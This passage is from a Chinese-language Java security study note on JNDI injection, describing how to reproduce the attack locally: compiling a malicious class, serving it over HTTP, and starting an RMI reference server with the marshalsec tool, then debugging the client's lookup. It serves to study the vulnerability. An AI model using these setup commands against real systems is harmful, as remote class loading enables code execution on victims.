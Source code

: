 ![JNDI-RMI](./Java安全学习-JNDI注入/8.png)

运行步骤:
 - 编译恶意类文件: `javac evilObject`
 - 在恶意类文件所在处起一个服务: `python3 -m http.server 4444`
 - 运行`JNDIServer`
 - 运行`JNDIClient`

注意事项:
 - `evilObject.java`及其编译的文件放到其它目录下, 避免在当前目录中直接找到该类来成功实现命令执行
 - `evilObject.java`文件不能申明包名, 声明后编译的`class`文件函数名称会加上包名从而不匹配
 - 注意使用`java`版本, 复现时需要满足可用`jdk`版本

除了利用代码搭建一个`RMI`服务外, 可以直接使用现成的工具`marshalsec`起一个`RMI`服务:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:80/#testObject 7777
```

#### 过程分析
在`JNDIClient.java`文件中的`GenericURLContext#lookup`方法处下断点.

![JNDIClient-lookup](./Java安全学习-JNDI注入/9.png)
